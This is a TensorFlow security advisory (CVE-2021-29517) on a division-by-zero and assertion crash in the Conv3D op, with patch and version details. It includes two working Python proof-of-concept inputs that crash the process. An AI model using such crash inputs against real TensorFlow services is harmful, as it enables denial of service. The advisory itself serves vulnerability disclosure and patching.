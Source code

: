 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-006.md
## TFSA-2021-006: Division by zero in `Conv3D`

### CVE Number
CVE-2021-29517

### Impact
A malicious user could trigger a division by 0 in `Conv3D` implementation:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)
filter_tensor = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)

tf.raw_ops.Conv3D(input=input_tensor, filter=filter_tensor, strides=[1, 56, 56, 56, 1], padding='VALID', data_format='NDHWC', dilations=[1, 1, 1, 23, 1])
```

The [implementation](https://github.com/tensorflow/tensorflow/blob/42033603003965bffac51ae171b51801565e002d/tensorflow/core/kernels/conv_ops_3d.cc#L143-L145) does a modulo operation based on user controlled input:

```cc
  const int64 out_depth = filter.dim_size(4);
  OP_REQUIRES(context, in_depth % filter_depth == 0, ...);
```

Thus, when `filter` has a 0 as the fifth element, this results in a division by 0.

Additionally, if the shape of the two tensors is not valid, an Eigen assertion
can be triggered, resulting in a program crash:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[2, 2, 2, 2, 0], dtype=tf.float32)
filter_tensor = tf.constant([], shape=[0, 0, 2, 6, 2], dtype=tf.float32)

tf.raw_ops.Conv3D(input=input_tensor, filter=filter_tensor, strides=[1, 56, 39, 34, 1], padding='VALID', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

The shape of the two tensors must follow the constraints specified in the [op
description](https://www.tensorflow.org/api_docs/python/tf/raw_ops/Conv3D).

### Patches
We have patched the issue in GitHub commit
[799f835a3dfa00a4d852defa29b15841eea9d64f](https://github.com/tensorflow/tensorflow/commit/799f835a3dfa00a4d852defa29b15841eea9d64f).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
